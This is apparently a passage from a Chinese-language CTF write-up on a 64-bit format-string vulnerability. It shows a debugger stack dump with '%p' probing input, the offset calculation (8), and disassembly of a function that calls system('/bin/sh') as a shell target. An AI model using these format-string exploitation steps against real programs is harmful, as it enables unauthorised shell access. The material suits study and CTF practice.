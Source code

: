 	0000| 0x7fffffffdf20 --> 0x7fffffffdf60 --> 0x7fffffffe010 --> 0x400eb0(push r15)

	0008| 0x7fffffffdf28 --> 0x400d74 (add rsp,0x30)

	0016| 0x7fffffffdf30 ("aaaaaaaa,%p,%p,"...)

	0024| 0x7fffffffdf38 (",%p,%p,%p,%p,%p"...)

	0032| 0x7fffffffdf40 ("p,%p,%p,%p,%p,%"...)

	0040| 0x7fffffffdf48 ("%p,%p,%p,%p,%p,"...)

	0048| 0x7fffffffdf50 (",%p,%p,%Mr@")

	0056| 0x7fffffffdf58 --> 0x400d4d (cmp eax,0x2)

	0064| 0x7fffffffdf60 --> 0x7fffffffe010 --> 0x400eb0 (push r15)

	0072| 0x7fffffffdf68 --> 0x400e98 (add rsp,0x30)

	0080| 0x7fffffffdf70 ("aaaaaaaa,%p,%p,"...)

	0088| 0x7fffffffdf78 (",%p,%p,%p,%p,%p"...)

	0096| 0x7fffffffdf80 ("p,%p,%p,%p,%p,%"...)

	0104| 0x7fffffffdf88 ("%p,%p,%p,%p,%p,"...)

	0112| 0x7fffffffdf90 (",%p,%p,%c016@")

	0120| 0x7fffffffdf98 --> 0x400e63 (jmp 0x400e80)

	0128| 0x7fffffffdfa0 --> 0x7fffffffe0f8 --> 0x7fffffffe419
	("/home/katrina/D"...)

	0136| 0x7fffffffdfa8 --> 0x1756e6547

	0144| 0x7fffffffdfb0 ("aaaaaaaa,%p,%p,"...)

	0152| 0x7fffffffdfb8 (",%p,%p,%p,%p,%p"...)

我们输入的格式化字符串在第3个位置，则偏移为2，算上前面的6个寄存器，所以偏移为6+2=8。或者用(0x70-0x30)/8=8

再在ida里面查字符串发现了system和/bin/sh，再往下一找，发现在sub_4008A6里面有调用system(‘/bin/sh’)

	sub_4008A6 proc near

	; __unwind {

	push rbp

	mov rbp, rsp

	mov edi, offset command ; "/bin/sh"

	call system

	pop rdi

	pop rsi

	pop rdx

	retn
